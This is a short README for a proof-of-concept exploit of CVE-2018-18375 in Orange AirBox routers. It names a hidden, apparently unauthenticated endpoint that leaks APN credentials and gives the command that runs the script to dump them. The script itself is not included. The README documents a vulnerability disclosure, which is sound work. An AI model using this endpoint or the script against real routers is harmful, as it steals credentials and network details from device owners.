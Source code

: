 # AirBoxAPNLeak
Proof of Concept of AirBoxAPNLeak Vulnerability.       
CVE-2018-18375                  

# How to use      

AirBoxAPNLeak.py         
`python AirBoxAPNLeak.py -ip 192.168.1.1`        
`APN NAME, NUMBER ,PASSWORD, USERNAME`

# How it works        

AirBox has hidden webpage `http://192.168.1.1/goform/getProfileList?rand=` which prints detailed APN info. It can be used to steal external ip addresses.
# Router information        

Router: AirBox
Vendor: Orange
Firmware version: Y858_FL_01.16_04
    
